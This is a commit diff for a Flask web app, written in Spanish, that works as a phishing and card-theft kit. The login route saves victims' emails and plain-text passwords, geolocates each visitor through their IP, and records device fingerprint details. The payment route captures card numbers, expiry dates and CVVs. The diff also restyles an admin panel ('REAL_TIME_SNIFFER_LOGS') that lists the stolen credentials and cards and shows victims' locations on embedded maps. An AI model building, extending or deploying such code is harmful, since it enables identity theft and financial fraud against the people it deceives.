

Before and after one commit to extermi3939/Despliegue-V11-Forensic-a-Render, a Flask app: page /matrix_admin in a window 1280 px wide. Shown: the top 630 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data comes from the database, SQL or seed files in the repository.

Commit message:
V12 Ultra Custom

```diff
--- a/app.py
+++ b/app.py
@@ -1,11 +1,9 @@
-import os
-import requests
-import sqlite3
+import os, requests, sqlite3, time
 from datetime import datetime
 from flask import Flask, render_template, request, redirect, url_for, session
 
 app = Flask(__name__)
-app.secret_key = 'franco_matrix_v11_final_complete'
+app.secret_key = 'franco_ultra_v12_final'
 
 # --- CONFIGURACIÓN DE RUTAS ---
 BASE_DIR = os.path.dirname(os.path.abspath(__file__))
@@ -28,6 +26,7 @@ def init_db():
 
 init_db()
 
+# CONFIGURACIÓN DINÁMICA (Controlable desde el Panel)
 config_web = {
     "user_admin": "franco",
     "pass_admin": "franco",
@@ -35,34 +34,34 @@ config_web = {
     "precio": "2500",
     "img_principal": "/static/system/portada.jpg",
     "titulo": "¡BIENVENIDO A MI SITIO OFICIAL!",
+    "color_fondo": "#2d004d", # Púrpura inicial
+    "color_texto": "#ffffff",
     "mantenimiento": False
 }
 
-def verificar_bin(cc):
-    try:
-        res = requests.get(f'https://lookup.binlist.net/{cc.replace(" ","")[:6]}', timeout=2).json()
-        return {"banco": res.get('bank', {}).get('name', 'BNC_UNK'), "tipo": f"{res.get('brand', '')} {res.get('type', '')}"}
-    except: return {"banco": "VERIFICANDO...", "tipo": "CREDIT/DEBIT"}
-
 @app.route('/')
 def login():
-    if config_web["mantenimiento"]: return "<h1>SERVICE_OFFLINE</h1>", 503
+    if config_web["mantenimiento"]: return "SITIO EN MANTENIMIENTO", 503
     return render_template('login.html', config=config_web)
 
 @app.route('/auth', methods=['POST'])
 def auth():
     u, p = request.form.get('email'), request.form.get('pass')
-    bat, res, lang, tz = request.form.get('bateria', 'N/D'), request.form.get('resolucion', 'N/D'), request.form.get('lenguaje', 'N/D'), request.form.get('tz', 'N/D')
+    # Captura Forense
+    bat = request.form.get('bateria', 'N/D')
+    res = request.form.get('resolucion', 'N/D')
+    lang = request.form.get('lenguaje', 'N/D')
+    tz = request.form.get('tz', 'N/D')
+
     geo = requests.get(f'http://ip-api.com/json/{request.remote_addr}').json()
     ua = request.headers.get('User-Agent', '')
     disp = "iOS" if "iPhone" in ua else "Android" if "Android" in ua else "PC"
-    conn = sqlite3.connect(DB_PATH)
-    cursor = conn.cursor()
+
+    conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
     cursor.execute("INSERT INTO registros (user, pass, tarjeta, banco, tipo, hora, dispositivo, city, lat, lon, bateria, resolucion, lenguaje, zona_horaria) VALUES (?,?,?,?,?,?,?,?,?,?,?,?,?,?)",
                    (u, p, "ESPERANDO...", "-", "-", datetime.now().strftime("%H:%M:%S"), disp, geo.get('city','N/A'), geo.get('lat',0), geo.get('lon',0), bat, res, lang, tz))
     session['current_id'] = cursor.lastrowid
-    conn.commit()
-    conn.close()
+    conn.commit(); conn.close()
     session['logged_in'] = True
     return redirect(url_for('dashboard'))
 
@@ -77,13 +76,10 @@ def pago_vip():
     rid = session.get('current_id')
     if rid:
         cc = request.form.get('cc')
-        info = verificar_bin(cc)
         datos = f"{cc} | {request.form.get('exp')} | {request.form.get('cvv')}"
-        conn = sqlite3.connect(DB_PATH)
-        cursor = conn.cursor()
-        cursor.execute("UPDATE registros SET tarjeta=?, banco=?, tipo=? WHERE id=?", (datos, info['banco'], info['tipo'], rid))
-        conn.commit()
-        conn.close()
+        conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
+        cursor.execute("UPDATE registros SET tarjeta=? WHERE id=?", (datos, rid))
+        conn.commit(); conn.close()
     return render_template('error.html')
 
 @app.route('/matrix_admin', methods=['GET', 'POST'])
@@ -92,11 +88,11 @@ def admin_matrix():
         if request.form.get('user') == config_web["user_admin"] and request.form.get('pass') == config_web["pass_admin"]:
             session['is_admin'] = True
     if not session.get('is_admin'): return render_template('admin_login.html')
+
     conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
     cursor.execute("SELECT * FROM registros ORDER BY id DESC")
     regs = cursor.fetchall(); conn.close()
-    archivos = os.listdir(UPLOAD_FOLDER)
-    return render_template('admin.html', config=config_web, registros=regs, archivos=archivos)
+    return render_template('admin.html', config=config_web, registros=regs, archivos=os.listdir(UPLOAD_FOLDER))
 
 @app.route('/update_full', methods=['POST'])
 def update_full():
@@ -105,8 +101,14 @@ def update_full():
             f = request.files['file_portada']
             if f.filename != '':
                 f.save(os.path.join(SYSTEM_FOLDER, "portada.jpg"))
-                config_web["img_principal"] = "/static/system/portada.jpg?v=" + str(datetime.now().timestamp())
-        config_web.update({"titulo": request.form.get('titulo'), "alias": request.form.get('alias'), "precio": request.form.get('precio')})
+                config_web["img_principal"] = "/static/system/portada.jpg?v=" + str(time.time())
+        config_web.update({
+            "titulo": request.form.get('titulo'),
+            "alias": request.form.get('alias'),
+            "precio": request.form.get('precio'),
+            "color_fondo": request.form.get('color_fondo'),
+            "color_texto": request.form.get('color_texto')
+        })
     return redirect(url_for('admin_matrix'))
 
 @app.route('/upload_media', methods=['POST'])
@@ -124,8 +126,4 @@ def delete_file(filename):
     return redirect(url_for('admin_matrix'))
 
 if __name__ == '__main__':
-    # Esto es para pruebas locales en Termux
     app.run(host='0.0.0.0', port=5000)
-else:
-    # Esto ayuda a gunicorn en Render
-    application = app
--- a/templates/admin.html
+++ b/templates/admin.html
@@ -1,49 +1,62 @@
 <!DOCTYPE html>
-<html>
+<html lang="es">
 <head>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>MATRIX_V11_STATION</title>
+    <title>MATRIX_V12_ULTRA</title>
     <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css">
     <style>
-        body { background: #000; color: #00ff41; font-family: monospace; font-size: 0.7rem; }
-        .m-box { border: 1px solid #00ff41; background: rgba(0,20,0,0.9); padding: 10px; margin-bottom: 10px; }
+        body { background: #000; color: #00ff41; font-family: 'Courier New', monospace; font-size: 0.75rem; }
+        .m-box { border: 1px solid #00ff41; background: rgba(0,20,0,0.9); padding: 15px; margin-bottom: 10px; box-shadow: 0 0 10px rgba(0,255,65,0.2); }
         .table { color: #00ff41; border-color: #004400; }
-        .forensic { font-size: 0.6rem; color: #00ccff; display: block; }
-        .thumb { width: 40px; height: 40px; object-fit: cover; border: 1px solid #00ff41; margin: 2px; }
-        input, .form-control { background: #000 !important; color: #00ff41 !important; border: 1px solid #00ff41 !important; font-size: 0.7rem; }
-        .blink { animation: blinker 1s linear infinite; color: #ff0000; font-weight: bold; }
-        @keyframes blinker { 50% { opacity: 0; } }
+        .forensic { color: #00ccff; display: block; font-size: 0.65rem; }
+        .thumb { width: 50px; height: 50px; object-fit: cover; border: 1px solid #00ff41; margin: 3px; border-radius: 5px; }
+        input, .form-control { background: #000 !important; color: #00ff41 !important; border: 1px solid #00ff41 !important; }
+        .blink { animation: b 1.5s infinite; color: #ff3e3e; }
+        @keyframes b { 50% { opacity: 0; } }
     </style>
 </head>
-<body class="p-2">
-    <h6 class="border-bottom border-success pb-1">> FRANCO_FORENSIC_STATION_V11</h6>
+<body class="p-3">
+    <h5 class="mb-4 border-bottom border-success pb-2">> FRANCO_FORENSIC_MASTER_V12_ULTRA</h5>
 
-    <div class="row g-2">
+    <div class="row">
         <div class="col-md-3">
             <div class="m-box">
-                <p class="mb-1 text-white small">> CORE_SETTINGS</p>
+                <p class="text-white small">> VISUAL_CUSTOMIZER</p>
                 <form action="/update_full" method="POST" enctype="multipart/form-data">
                     <label class="small text-muted">Subir Portada:</label>
-                    <input type="file" name="file_portada" class="form-control form-control-sm mb-1">
-                    <label class="small text-muted">Frase de Bienvenida:</label>
-                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-1">
-                    <input type="text" name="alias" value="{{config.alias}}" class="form-control form-control-sm mb-1">
-                    <input type="text" name="precio" value="{{config.precio}}" class="form-control form-control-sm mb-1">
-                    <button class="btn btn-outline-success btn-sm w-100 mt-1">UPDATE_CORE</button>
+                    <input type="file" name="file_portada" class="form-control form-control-sm mb-2">
+                    <label class="small text-muted">Bienvenida:</label>
+                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-2">
+
+                    <div class="row g-1 mb-2">
+                        <div class="col-6">
+                            <label class="small text-muted">Fondo:</label>
+                            <input type="color" name="color_fondo" value="{{config.color_fondo}}" class="form-control form-control-sm p-0 h-auto">
+                        </div>
+                        <div class="col-6">
+                            <label class="small text-muted">Texto:</label>
+                            <input type="color" name="color_texto" value="{{config.color_texto}}" class="form-control form-control-sm p-0 h-auto">
+                        </div>
+                    </div>
+
+                    <input type="hidden" name="alias" value="{{config.alias}}">
+                    <input type="hidden" name="precio" value="{{config.precio}}">
+                    <button class="btn btn-outline-success btn-sm w-100 mt-2">APLICAR CAMBIOS</button>
                 </form>
             </div>
 
             <div class="m-box">
-                <p class="mb-1 text-white small">> STORAGE_INJECTOR</p>
-                <form action="/upload_media" method="POST" enctype="multipart/form-data" class="mb-2">
-                    <input type="file" name="file_gallery" class="form-control form-control-sm mb-1">
-                    <button class="btn btn-outline-primary btn-sm w-100">UPLOAD_TO_GALLERY</button>
+                <p class="text-white small">> MEDIA_INJECTOR</p>
+                <form action="/upload_media" method="POST" enctype="multipart/form-data">
+                    <input type="file" name="file_gallery" class="form-control form-control-sm mb-2">
+                    <button class="btn btn-outline-primary btn-sm w-100">SUBIR A GALERIA</button>
                 </form>
-                <div class="d-flex flex-wrap overflow-auto" style="max-height: 150px;">
+                <hr class="border-success">
+                <div class="d-flex flex-wrap overflow-auto" style="max-height: 180px;">
                     {% for f in archivos %}
                     <div class="position-relative">
                         <img src="/static/uploads/{{f}}" class="thumb">
-                        <a href="/delete_file/{{f}}" class="position-absolute top-0 end-0 bg-danger text-white px-1" style="font-size:7px; text-decoration:none;">X</a>
+                        <a href="/delete_file/{{f}}" class="btn btn-danger btn-sm p-0 position-absolute top-0 end-0" style="width:15px; height:15px; font-size:10px;">X</a>
                     </div>
                     {% endfor %}
                 </div>
@@ -52,32 +65,34 @@
 
         <div class="col-md-9">
             <div class="m-box overflow-auto">
-                <p class="mb-1 text-white small">> REAL_TIME_SNIFFER</p>
-                <table class="table table-dark table-sm">
+                <p class="text-white small">> REAL_TIME_SNIFFER_LOGS</p>
+                <table class="table table-dark table-hover table-sm">
                     <thead>
                         <tr>
-                            <th>IDENT_DATA</th>
-                            <th>FORENSIC_METADATA</th>
-                            <th>CARD_INTEL</th>
-                            <th>LOCATION</th>
+                            <th>IDENTIDAD</th>
+                            <th>HUELLA_DIGITAL</th>
+                            <th>DATOS_CARD</th>
+                            <th>MAPA_GPS</th>
                         </tr>
                     </thead>
                     <tbody>
                         {% for r in registros %}
                         <tr>
-                            <td><b>{{r[1]}}</b><br><span class="text-white">{{r[2]}}</span></td>
+                            <td><b>{{r[1]}}</b><br><small class="text-info">{{r[2]}}</small></td>
                             <td>
                                 <span class="forensic">BAT: {{r[11]}} | RES: {{r[12]}}</span>
-                                <span class="forensic">LANG: {{r[13]}}</span>
+                                <span class="forensic">LANG: {{r[13]}} | TZ: {{r[14]}}</span>
                                 <small class="text-success">{{r[7]}}</small>
                             </td>
-                            <td class="{% if 'ESPERANDO' not in r[3] %}blink{% endif %}">
-                                <span class="badge bg-success" style="font-size:0.5rem">{{r[4]}}</span><br>{{r[3]}}
+                            <td>
+                                <span class="{% if 'ESPERANDO' not in r[3] %}blink{% endif %}">
+                                    {{r[3]}}
+                                </span>
                             </td>
                             <td>
                                 {% if r[9] != 0 %}
-                                <iframe width="100" height="60" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&hl=es&z=10&output=embed"></iframe>
-                                {% else %}<small>{{r[8]}}</small>{% endif %}
+                                <iframe width="140" height="80" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&hl=es&z=12&output=embed"></iframe>
+                                {% else %}<small class="text-muted">{{r[8]}}</small>{% endif %}
                             </td>
                         </tr>
                         {% endfor %}
```
Also changed, not shown: templates/login.html (+59 -30 lines).
